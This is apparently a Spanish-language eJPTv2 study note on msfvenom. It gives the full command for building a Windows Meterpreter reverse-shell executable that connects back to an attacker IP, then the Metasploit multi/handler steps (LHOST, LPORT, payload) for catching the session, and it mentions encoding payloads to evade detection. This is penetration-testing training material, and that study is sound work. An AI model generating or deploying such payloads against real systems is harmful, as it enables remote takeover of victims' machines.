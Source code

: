 Es una herramienta del Metasploit Framework usada para generar **payloads** personalizables. Sirve para crear archivos maliciosos que pueden ejecutarse en una máquina víctima, iniciando una conexión hacia el atacante (reverse shell, bind shell, etc.).

Se usa principalmente para:

- Crear ejecutables con payloads incluidos.
- Generar scripts para inyección (en Python, Bash, etc.).
- Codificar payloads para evadir detección

````
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.138 LPORT=443 -f exe -o pwned.exe
`````

- `-p windows/x64/meterpreter/reverse_tcp`: Payload tipo reverse shell con Meterpreter para Windows 64 bits
- `LHOST=192.168.1.138`: IP de tu máquina atacante (donde esperas la conexión de la víctima).
- `LPORT=443`: Puerto en tu máquina atacante que estará escuchando.
- `-f exe`: Formato de salida: archivo ejecutable `.exe`.
- `-o pwned.exe`: Nombre del archivo generado con el payload incrustado.

![[1.1. MSFVENOM.jpg]]

Una vez hayamos creado nuestro archivo tendremos que pasarlo a la máquina victima mediante lo explicado en los siguientes apartados:

- [[eJPTv2/CONCEPTOS BÁSICOS/2. Compartir archivos con servidor http]]
- [[eJPTv2/CONCEPTOS BÁSICOS/3. Compartir archivos en máquinas Windows (Sin curl ni wget)]]

Para activar la escucha de este archivo que hemos creado tendremos la opción de [[eJPTv2/CONCEPTOS BÁSICOS/1. Netcat]] o podremos hacer uso de un apartado de Metasploit de la siguiente forma.

Tendremos que entrar dentro de la consola de MSF y realizar una búsqueda de un apartado llamado "multi/handler".

![[1.2. MSFVENOM.jpg]]

Una vez encontrado lo seleccionaremos mediante "use" y veremos que nos pide únicamente LHOST Y LPORT. También podemos ver que tiene un payload genérico seleccionado. 

Primeramente, vamos a poner los datos de LHOST y LPORT de la siguiente forma 
 
````
set LHOST 192.168.1.138
set LPORT 443
`````
(En este caso son estos valores pero podrían variar según los que tengamos en cada momento.)

Una vez establecido los parámetros básicos tendremos que seleccionar el payload que queremos. SIEMPRE será el mismo que se ha usado en el comando inicial.

![[1.4. MSFVENOM.jpg]]

Una vez tengamos todos los parámetros establecidos podremos hacer un RUN y se abrirá una sesión de meterpreter cuando se ejecute el archivo que habremos pasado en la máquina atacante.

![[1.5. MSFVENOM.jpg]]



